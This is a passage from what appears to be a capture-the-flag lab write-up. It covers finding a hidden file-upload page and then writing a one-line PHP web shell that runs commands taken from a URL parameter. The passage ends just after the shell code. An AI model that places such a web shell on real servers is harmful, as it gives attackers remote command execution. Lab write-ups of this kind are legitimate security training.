 ![QR Code Page](images/Pasted%20image%2020251005172216.png)

**QR Code Content**: Flag + Base64 encoded text → `uploadr942.php`

## File Upload Exploitation

### Upload Page Discovery

Accessing `http://imf.com/imfadministrator/uploadr942.php` revealed a file upload interface.

### Bypass Techniques

Created a PHP shell with command execution:

```php
<?php 
    system($_GET['cmd']);
?>
```
